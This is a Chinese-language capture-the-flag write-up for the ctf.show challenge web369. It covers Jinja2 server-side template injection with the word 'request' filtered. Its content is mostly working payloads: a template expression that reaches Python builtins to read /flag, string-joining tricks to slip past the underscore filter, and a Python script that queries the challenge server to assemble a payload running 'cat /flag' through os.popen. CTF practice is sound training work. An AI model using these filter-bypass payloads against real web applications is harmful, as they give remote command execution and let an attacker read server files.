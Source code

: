

#### web369过滤request

核心payload: 

```python
{% print (lipsum|attr(__globals__)).get(__builtins__).open('/flag').read() %}
```

**字符串拼接：**

```python
'm'+'o'
'm'~'o'
('m','o')|join
['m','o']|join
{'m':a,'o':a}|join
dict(m=a,o=a)|join
```

方法一：

因为下划线被过滤了，`__str__()`用不了，改用过滤器string来输出字符串，然后用过滤器list将其分割输出：

`{% print config|string|list %}` <font color='red'>//将config的内容分隔开来</font>

然后利用`pop()`搭配`lower()`来遍历输出小写字符：`{% print (config|string|list).pop().lower() %}`

![](https://s2.loli.net/2022/01/07/OYBTvnXm2UtrxSw.png)

开始跑脚本，构造之前题的payload

```python
import requests

def mdpl(payload):
    url = "http://da46c882-1036-4900-839a-cae97e794788.challenge.ctf.show/"
    result = ""
    for j in payload:
        for i in range(1000):
            params = {
                'name': "{{% print (config|string|list).pop({}).lower() %}}".format(i)
            }
            r = requests.get(url, params=params)
            # print(r.text.find('<h3>'))
            num = r.text.find('<h3>')+4
            stra = r.text[num]
            if stra == j:
                # print("(config|string|list).pop({}).lower()  ==  {}".format(i, j))
                result += "(config|string|list).pop({}).lower()~".format(i)
                # print(result)
                break
    return result


payload1 = "__globals__"
payload2 = "os"
payload3 = "cat /flag"
end = "{{% print (lipsum|attr({})).get({}).popen({}).read() %}}".format(mdpl(payload1).strip('~'), mdpl(payload2).strip('~'), mdpl(payload3).strip('~'))
print(end)
```
